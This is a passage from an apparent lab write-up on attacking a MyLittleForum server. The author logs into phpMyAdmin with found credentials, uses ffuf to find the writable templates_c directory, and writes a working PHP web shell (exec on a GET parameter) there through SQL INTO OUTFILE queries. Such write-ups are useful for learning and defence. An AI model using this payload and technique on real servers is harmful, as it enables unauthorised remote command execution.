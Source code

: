## Checking the phpmyadmin

So, as we found a phpmyadmin service, we will try to use these credential to access database. It also work.

Now, as we are granted in phpmyadmin page, we can potentially obtain webserver user access into our target.

This tutorial show how to obtain webshell using sql command https://null-byte.wonderhowto.com/how-to/use-sql-injection-run-os-commands-get-shell-0191405/

Using the following SQL query return an error:

```sql
SELECT "<form method='get' action='cmd.php'><input type='text' name='cmd'/ autofocus><button type='submit'>submit</button></form><?php $output='';exec($_GET['cmd'], $output);echo(implode('<br>', $output)); ?>"
INTO OUTFILE "/var/www/forum/cmd.php"
```

> Error is:
>
> ```
> Can't create/write to file '/var/www/forum/cmd.php' (Errcode: 13)
> ```

#### Finding a writable directory

##### By fuzzing

We have to find a directory where write access will be granted.

If we return a second ffuf in the /forum directory we found some other dir where we can potentially write in it:

```bash
ffuf https://192.168.31.103/forum/FUZZ -w wordlist.txt
```

We find templates_c folder, so if we try to write in it, it work.

##### By checking source code

MyLittleForum is an open-source project, we can easily find the sources on the Internet: [On Github](https://github.com/ilosuna/mylittleforum).

<ins>In the README:</ins>

> Depending on your server configuration the write permissions of the subdirectory templates_c (CHMOD 770, 775 or 777) and the file config/db_settings.php (CHMOD 666) might need to be changed in order that they are writable by the script.

If a misconfiguration is made, we can use `templates_c`

#### Retry with the writable directory

```sql
SELECT "<form method='get' action='shell.php'><input type='text' name='cmd'/ autofocus><button type='submit'>submit</button></form><?php $output='';exec($_GET['cmd'], $output);echo(implode('<br>', $output)); ?>"
INTO OUTFILE '/var/www/forum/templates_c/cmd.php'
```
